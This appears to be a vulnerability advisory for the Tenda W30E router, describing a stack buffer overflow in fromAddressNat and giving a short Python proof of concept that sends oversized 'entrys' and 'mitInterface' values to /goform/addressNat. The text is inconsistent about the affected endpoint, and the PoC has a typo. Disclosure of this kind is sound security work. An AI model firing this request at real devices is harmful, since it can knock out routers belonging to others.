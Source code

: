 # Tenda Router W30E Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router W30E. (The latest version is [W30E_V1.0.1.25(633)](https://www.tenda.com.cn/download/detail-2218.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/104_1/vlun.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
mport requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
